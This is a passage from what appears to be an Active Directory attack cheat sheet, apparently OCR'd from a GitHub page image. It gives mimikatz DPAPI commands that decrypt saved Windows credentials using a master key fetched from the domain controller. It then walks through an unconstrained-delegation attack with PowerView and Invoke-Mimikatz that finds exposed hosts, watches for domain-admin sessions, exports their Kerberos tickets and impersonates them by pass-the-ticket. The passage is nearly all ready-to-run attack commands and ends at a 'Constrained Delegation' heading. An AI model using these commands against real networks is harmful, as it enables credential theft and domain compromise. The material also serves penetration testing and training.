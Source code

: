 #By using the cred function of mimikatz we can enumerate the cred object and get information about it:

dpapi::cred /in:"%appdata%\Microsoft\Credentials\<CredHash>"

#From the previous command we are interested to the "guidMasterKey" parameter, that tells us which masterkey was used to encrypt the credential

#Lets enumerate the Master Key:

dpapi::masterkey /in:"%appdata%\Microsoft\Protect\<usersid>\<MasterKeyGUID>"

#Now if we are on the context of the user (or system) that the credential belogs to, we can use the /rpc flag to pass the decryption of the masterkey to the domain controler:

dpapi::masterkey /in:"%appdata%\Microsoft\Protect\<usersid>\<MasterKeyGUID>" /rpc

#We now have the masterkey in our local cache:

dpapi::cache

#Finally we can decrypt the credential using the cached masterkey: dpapi::cred /in:"%appdata%\Microsoft\Credentials\<CredHash>"

Detailed Article: [DPAPI all the things](https://github.com/gentilkiwi/mimikatz/wiki/howto-~-credential-manager-saved-credentials)

### Unconstrained Delegation

*WUT IS DIS ?: If we have Administrative access on a machine that has Unconstrained Delegation enabled, we can wait for a high value target or DA to connect to it, steal his TGT then ptt and impersonate him!*

Using PowerView:

#Discover domain joined computers that have Unconstrained Delegation enabled

Get-NetComputer -UnConstrained

#List tickets and check if a DA or some High Value target has stored its TGT

Invoke-Mimikatz -Command '"sekurlsa::tickets"'

#Command to monitor any incoming sessions on our compromised server

Invoke-UserHunter -ComputerName <NameOfTheComputer> -Poll

<TimeOfMonitoringInSeconds> -UserName <UserToMonitorFor> -Delay

<WaitInterval> -Verbose

#Dump the tickets to disk:

Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'

#Impersonate the user using ptt attack:

Invoke-Mimikatz -Command '"kerberos::ptt <PathToTicket>"'

**Note:** We can also use Rubeus!

### Constrained Delegation
